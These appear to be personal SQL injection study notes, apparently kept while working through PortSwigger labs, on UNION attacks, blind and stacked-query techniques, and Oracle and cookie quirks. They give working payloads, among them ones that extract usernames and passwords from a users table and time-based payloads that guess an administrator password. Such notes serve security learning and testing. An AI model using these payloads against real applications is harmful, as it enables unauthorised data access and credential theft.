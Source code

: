 # SQL Injection
Tags: #sqli #database
Related to: [[oracle]]
See also:
Previous:

## Links
Title: Portswigger SQLi cheatsheet
Link: https://portswigger.net/web-security/sql-injection/cheat-sheet
Description: Useful payloads for SQLi testing. Has different modifications per database

Title: Find Table Names for SQL Injection
Link: https://www.sqlinjection.net/table-names/
Description: More info into actually getting table info from schema tables. More in detail than the Portswigger cheatsheet

## Notes
- You don't need to SELECT FROM something (e.g. `SELECT 1`, `SELECT NULL,NULL`)
- Swap out `--` for `#` sometimes. It may cause an error in some cases and not in others
- Be very careful about how the payload is being encoded. IN the case of injecting into a cookie for example, I have gotten stuck when the payload was not properly encoded. This is probably due to editing the payload in the wrong section of the Inspector tool in Burp Repeater. Watch out!


### UNION attack
-  How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
e.g.: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

`' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--`
`' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--`

### Joining multiple results into one column
e.g. in the case where you want two strings from different columns, but only one column in the original query uses the string type.

In the below example, column 1 does not support strings, but column2 does. This gives us `username~password` from the users table..

`' UNION SELECT null,username || '~' || password FROM users--`

### Getting table names
Non-Oracle:
`' UNION SELECT table_name,NULL from information_schema.tables--`

### Blind SQLi
[Blind SQLi on Portswigger](https://portswigger.net/web-security/sql-injection/blind)
Data can be extracted by triggering error-messages or time-based delays based on logical statements inserted into the SQLi parameter.

### Batched/stacked queries
_See: https://portswigger.net/web-security/sql-injection/cheat-sheet, section **Batched (or stacked) queries**_

Refers to using a semi-colon to execute an additional query during a SQLi, e.g.:

`QUERY1-HERE; QUERY2-HERE--`

Only the information from `QUERY1-HERE` gets returned to the app! `QUERY2-HERE` is used in side-channel attacks (error, time-based, "out of band")

#### Why use stacked queries?
- It's a technique in cases of error-based, time-based, or "out of band" SQLi exploits
- The second query is one you can write from scratch, so you can do complex logic to exfiltrate information.
- e.g. the below payload can be used and modified to do a binary search to discover a plaintext password based on causing a delay in a MS-SQL database.

```
`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`
```

**N.B.** Oracle does not support stacked queries!! Instead of using a semicolon to add a second query, you can use `UNION`, so:

```
x' UNION SELECT COMPLEX-QUERY FROM dual--
```

### "Gotchas"
A list of issues that can make SQLi payloads fail

#### Oracle
Oracle DB behaves in a strange way relative to other databases. More info can be found in [[oracle]].

tl;dr:
- You always need `FROM dual`
- No stacked/batched queries
- Very little documentation

#### SQLi into Cookies
Use concantenation to avoid using semi-colons or spaces that can interfere with how the Request is parsed

Comments at the end are still necessary,e.g.
`x'||pg_sleep(10)--`

